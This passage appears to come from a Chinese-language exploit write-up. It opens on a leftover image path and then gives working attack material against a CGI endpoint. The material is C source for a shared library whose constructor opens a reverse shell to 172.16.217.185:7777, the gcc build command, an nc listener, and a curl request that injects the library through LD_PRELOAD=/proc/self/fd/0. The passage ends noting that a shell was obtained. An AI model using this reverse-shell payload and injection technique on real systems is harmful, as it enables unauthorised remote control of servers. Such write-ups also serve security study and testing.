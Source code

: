接着编译用于动态加载的so。

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="172.16.217.185";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  //socket initialize
	int sock = socket(AF_INET, SOCK_STREAM, 0);
	struct sockaddr_in attacker_addr = {0};
	attacker_addr.sin_family = AF_INET;
	attacker_addr.sin_port = htons(server_port);
	attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
	if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
		exit(0);
  //dup the socket to stdin, stdout and stderr
	dup2(sock, 0);
	dup2(sock, 1);
	dup2(sock, 2);
  //execute /bin/sh to get a shell
	execve("/bin/sh", 0, 0);
}
```

编译命令：

```bash
gcc -shared -fPIC ./exp.c -o exp.so
```

然后在控制端监听7777端口：

```bash
nc -lvnp 7777
```

执行poc：

```bash
curl -X POST --data-binary @exp.so http://172.16.217.185:80/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

可以看到成功拿到shell。

![poc_shell](./poc_shell.png)
